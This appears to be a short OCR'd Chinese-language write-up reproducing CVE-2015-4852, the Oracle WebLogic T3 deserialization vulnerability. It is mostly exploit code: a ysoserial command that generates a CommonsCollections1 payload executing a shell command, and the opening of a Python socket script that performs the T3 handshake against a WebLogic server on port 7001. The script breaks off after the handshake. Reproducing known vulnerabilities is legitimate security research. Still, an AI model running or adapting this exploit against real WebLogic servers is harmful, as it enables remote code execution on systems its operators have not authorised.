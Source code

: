 ![img](.\images\t01930ddfbdb4fc2f6a.png)

CVE-2015-4852漏洞复现 （t3反序列化漏洞）

```
java -jar ysoserial.jar CommonsCollections1 'touch /test.txt' > payload.bin
```

python攻击脚本

```python
import socket
import struct
import sys
from scapy.all import *

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ("192.168.0.102", 7001)
print ('connecting to ')
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
headers_bytes = headers.encode('utf-8')
print( 'sending ')
sock.sendall(headers_bytes)
```